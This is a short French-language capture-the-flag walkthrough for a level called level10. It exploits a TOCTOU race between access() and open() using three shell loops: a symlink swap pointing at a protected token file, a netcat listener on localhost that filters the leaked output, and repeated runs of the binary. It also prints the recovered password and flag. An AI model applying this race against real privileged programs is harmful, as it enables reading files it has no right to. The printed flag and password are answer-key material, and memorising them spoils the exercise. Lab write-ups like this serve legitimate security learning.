 Dans ce niveau on a encore un executable ```level10``` et on fichier ```token``` dont on a aucun acces

Quand on decompile l'executable on voit qu'il y a un appel a ```access()``` pour les droits

On va exploiter la faille appele toctou avec des scripts

Le premier sert a faire un lien symbolique en boucle pour passer apres ```access()``` :

```sh
while true; do
    rm -f /tmp/fakefile
    echo "fake content" > /tmp/fakefile
    sleep 0.0001
    rm -f /tmp/fakefile
    ln -s /home/user/level10/token /tmp/fakefile
    sleep 0.0001
done
```

Le second sert a filtrer le contenu lu en boucle (si c'est notre 'fake content' ou le contenu reel de token) :

```sh
while true; do
    output=$(nc -l localhost 6969)
    
    if [[ "$output" == ".*( )*." ]] || [[ "$output" == *"fake content"* ]]; then
        continue
    fi
    
    echo "$output"
    break
done
```

Et le troisieme sert uniquement a executer le prog ```level10``` :

```sh
while true; do
    /home/user/level10/level10 /tmp/fakefile 127.0.0.1
done
```
On Trouve finalement le mdp pour acceder a ```su flag10``` = ```woupa2yuojeeaaed06riuj63c```

Et avec la commande ```getflag``` on obteint le flag = ```feulo4b72j7edeahuete3no7c```